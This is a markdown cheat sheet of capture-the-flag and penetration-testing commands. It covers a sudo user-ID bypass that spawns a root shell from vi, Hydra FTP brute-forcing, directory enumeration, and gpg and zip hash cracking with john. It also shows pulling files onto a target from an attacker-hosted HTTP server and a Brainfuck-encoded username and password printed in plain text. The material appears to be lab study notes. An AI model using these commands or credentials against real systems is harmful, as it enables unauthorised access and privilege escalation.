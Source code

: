 # Vi editor and sudo vulnerability

- Type:
````shell
sudo -u#-1 /usr/bin/vi file
````
- Then type on the vi finder menu: `!/bin/sh`

# Brainfuck coding language
- An example:
````brainfuck
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <

## Equivalent to: 
User: eli
Password: DSpDiM1wAEwid
````
- Decoder/Encoder here: https://www.dcode.fr/brainfuck-language

# Hydra by ftp
````shell
hydra -l user -P passwords.txt ftp://<target-ip>
````

# Dirb basic command
````shell
dirb http://10.10.233.35/ /usr/share/wordlists/dirb/common.txt 
````

# Gobuster basic command
````shell
gobuster dir -u http://10.10.70.124/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 60
````

# Tac for print and read files
- Use the tool tac for printing files when cat, vi, vim... are blocked or not permitted:
````shell
tac /home/file.txt
````

# Import a .asc key
- Once you get the key:
````shell
gpg --import key.asc

# If you don't have the creds, you can brute force it using gpg2john
gpg2john key.asc > hash.txt
# Then you crack it with john
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# Now you do the import step, introduce the creds and after that do the decrypt step
gpg --decrypt credential.pgp
````

# Python3 remote http server
- Initiate it: `python3 -m http.server 8080`
- The on the target machine:
````shell
wget http://<attack-ip>:8080/file
````

# Login without password to FTP
- User:  `anonymous`

# Investigate image metadata (Stego)
- Use command `file image.png`
- Use command `exiftool image.png`
- Use command `xxd image.png`
- Use command `strings image.png`
- Use tool binwalk to search binary images for embedded files and executable code: `binwalk image.png`
	- To extract the file: `binwalk -e image.png`
- Use command: `steghide extract -sf image.png`

# Crack zip files
- First get the hash: `zip2john file.zip > hash`
- Then use command: `john --wordlist=/path/to/wordlist hash`

# Extract from cli
- Use command: `7z e file.zip`

# How to deal with a /.git/?
- Download the full repository: `wget --mirror http://<ip-target>/.git/`
- Once downloaded follow this steps:
	- Look at the commits: `git log --oneline`
	- Go down the history: `git checkout <commit> --force`
	- Now inspect the commit


